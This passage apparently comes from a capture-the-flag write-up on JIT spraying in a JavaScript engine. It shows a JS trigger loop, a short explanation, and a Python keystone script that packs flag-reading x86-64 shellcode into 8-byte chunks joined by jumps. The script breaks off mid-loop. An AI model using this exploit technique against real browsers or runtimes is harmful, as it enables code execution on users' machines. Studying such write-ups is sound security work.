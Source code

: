 ```js
}

for (let i = 0; i < 100000; i++) {
  if (jit()[0]) {
    console.log(i);
    break;
  }
}

/* start exploit */
exp();
```

Essentially, we have to call the function enough times such that it "heats up" and gets optimised into direct assembly code. Each of the doubles appear in full form in the assembly, each encoding 8 bytes of shellcode which does something and jumps to the next sequence such that they form a full shellcode when chained together.

```python
from keystone import *
import struct

SHELLCODE = '''
push   0x67616c66
pop    rax
push   0x7478742e
pop    rbx
shl    rbx,0x20
add    rax,rbx
xor esi, esi
push rsi
push   rax
mov rdi, rsp
xor edx, edx
xor eax, eax
mov al, 2
syscall
mov edi, eax
push rsp
pop rsi
xor eax, eax
xor edx, edx
mov dl, 0x40
syscall
xor eax, eax
inc eax
mov edi, eax
syscall
'''.strip()

NOP = b'\x90'
JMP = b'\xeb\x1f'
SZ = 8
THRESHOLD = SZ - len(JMP)

ks = Ks(KS_ARCH_X86, KS_MODE_64)
payloads = []
cur_payload = b''
for line in SHELLCODE.splitlines():
    cur = bytes(ks.asm(line)[0])
    if len(cur_payload) + len(cur) > THRESHOLD:
        assert cur_payload, f'{cur} cannot fit into payload'
        payloads.append(cur_payload.ljust(THRESHOLD, NOP) + JMP)
        cur_payload = b''
```